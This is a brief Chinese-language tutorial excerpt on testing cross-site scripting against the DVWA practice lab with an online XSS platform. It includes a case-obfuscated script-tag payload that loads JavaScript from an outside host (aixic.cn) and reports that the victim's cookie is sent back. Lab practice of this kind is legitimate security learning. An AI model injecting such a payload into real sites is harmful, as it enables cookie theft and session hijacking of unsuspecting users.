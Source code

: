 ![在这里插入图片描述](assets/2019052722201120.png)
点击下面的修改即可成功应用
![在这里插入图片描述](assets/20190527222046379.png)
下面开始使用这个默认的JS脚本进行XSS，复制一下js地址`https://aixic.cn/XXXSSS/template/default.js`
![image-20190811182752409](assets/image-20190811182752409.png)
在DVWA中插入试试

```
<sCRiPt sRC=https://aixic.cn/XXXSSS/template/default.js></sCrIpT>
```

![image-20190811182809792](assets/image-20190811182809792.png)
能成功反射cookie

